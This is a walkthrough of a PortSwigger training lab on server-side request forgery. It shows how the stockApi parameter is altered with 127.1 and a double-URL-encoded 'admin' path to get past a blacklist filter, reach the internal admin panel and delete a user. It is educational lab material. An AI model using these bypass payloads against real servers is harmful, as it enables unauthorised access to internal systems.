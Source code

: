 ```yaml
---
title: "SSRF: challange 3"
date: "2024-02-09"
thumbnail: "/assets/img/thumbnail/ssrf.png"
---
```


# SSRF with blacklist-based input filter
---

Link: https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed two weak anti-SSRF defenses that you will need to bypass.

### solution

- start the lab and remember the objective is to open `/admin` and delete the user carlos
- if u try going to `/admin` endpoint, you will n't get the result as u can't access it directly u will get this message `Admin interface only available if logged in as an administrator, or if requested from loopback`
- so let's go to products and click check stock as challange describtion said
- intercept this request

```
POST /product/stock HTTP/1.1
Host: 0a8800100385496e84c90fc700fa00af.web-security-academy.net
Cookie: session=ffMtPXx2g8AmQYwWYmNulgDa0wkhrt4i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8800100385496e84c90fc700fa00af.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a8800100385496e84c90fc700fa00af.web-security-academy.net
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
```

- notice that stockApi parameter has a url as a value, so let's try to change it to `http://localhost/admin` and the send the request
- ummmmmmmmmmm it's blocked so let's try this `http://127.1`
- Nice we got response with status code 200 OK
- then let's try `http://127.1/admin`
- It's blocked so there may be restriction on `admin`
- let's do some obsufication like double url encoding of any character like a is example
- the payload became `http://127.1/%25%36%31dmin` sent the request
- Nice we got response with status code 200 OK
- when we look at the response body we see this

```html
<div>
    <span>wiener - </span>
    <a href="/admin/delete?username=wiener">Delete</a>
</div>
<div>
    <span>carlos - </span>
    <a href="/admin/delete?username=carlos">Delete</a>
</div>
```

- and that's what we exactly need
- send the previous request again but with stockApi parameter value = `http://127.1/%25%36%31dmin/delete?username=carlos`
- Carlos is deleted
- Congratzzzzzzzzzzzzzzzzzzzzzzzzzzzz